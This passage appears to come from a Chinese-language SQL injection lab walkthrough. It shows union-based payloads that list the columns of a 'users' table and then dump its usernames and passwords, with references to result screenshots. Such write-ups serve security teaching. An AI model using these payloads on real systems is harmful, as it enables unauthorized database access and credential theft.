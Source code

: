 看到了最后一个表是'users',可用于下一步爆字段

爆字段：

```mysql
id=0' union select 1,group_concat(column_name),database() from information_schema.columns where table_name='users' --+
```

![](/img/union爆字段.png)

爆出来了users表中的所有字段，最重要的user,password等全出来了，接下来就可以union查询出它们的值了

```mysql
id=0' union select 1,group_concat(username,0x3a,password),3 from users --+
```

![](img\union爆出账号密码.png)

